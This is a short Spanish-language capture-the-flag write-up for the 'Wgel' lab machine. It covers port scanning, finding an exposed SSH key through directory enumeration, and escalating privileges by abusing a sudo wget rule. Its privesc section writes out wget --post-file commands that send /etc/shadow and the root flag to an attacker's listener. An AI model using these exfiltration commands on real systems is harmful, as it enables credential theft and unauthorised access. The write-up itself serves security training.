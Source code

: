 # Wgel
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
### HTTP 
En el source de la main page
```
 <!-- Jessie don't forget to udate the webiste -->
 ```
 Un user tal vez
 #### Gobuster 
 ```
 /sitemap (Status: 301)
 /sitemap/.ssh/ (Status: 301)
```

El segundo parece interesante , si accedemos vemos una clave RSA 

Tenemos una clave , tenemos un user , podriamos entrar?

## Privesc

Entramos como jessie y podemos leer la flag del user, veamos como escalar
```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Sin password solo wget , por suerte es bien conocido que con wget tenemos arbitrary file read/write
```
 sudo /usr/bin/wget --post-file=/etc/shadow IP:1234
```
Obtenemos el shadow y intentamos crackear el hash, aunque la way que se busca por lo visto es la siguiente
```
 sudo /usr/bin/wget --post-file=/root/root_flag.txt IP:1234
```
 
# Analisís de la intrusión
### Sensible data leak
La clave SSH de el usuario jessie esta expuesta en el servidor por una mala congiguracion
### Privileged wget execution
La ejecución privilegiada de wget por pate del usuario jeessie, nos permite exfiltrar archivos de manera arbitraria desde el mismo
